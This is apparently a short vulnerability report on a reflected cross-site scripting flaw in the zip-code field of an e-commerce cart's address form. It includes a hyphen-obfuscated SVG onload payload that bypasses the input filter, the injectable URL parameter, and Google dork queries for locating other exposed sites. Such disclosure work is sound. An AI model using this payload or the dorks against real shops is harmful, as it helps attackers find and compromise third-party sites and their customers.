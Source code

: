 # Cross Site Scripting on default complement

# Overview of the Vulnerability
This vulnerability makes it possible to inject content into zip code forms, where it is possible to perform the execution in a reflected way.
As a default component of Ecommerce, it has a field where it performs address queries, but when sanitizing the input there is a loophole where it is possible to bypass the security control through "-" symbols.
<br>
Example payload:
```javascript
<s-v-g o-n-l-o-a-d=a-l-e-r-t-('r00t1ng')>
```
<br>
# Step to reproduce:
- On url, change a fields /carrinho/endereco/adicionar?cep={INJECT_HERE}
<br> 
<br> 
# Proof of Concept
<img src="https://i.imgur.com/O1Gq62d.png">
<br>
<br>
# Google Hacking:
inurl: carrinho/endereco/adicionar?cep=
inurl: endereco/adicionar?cep=
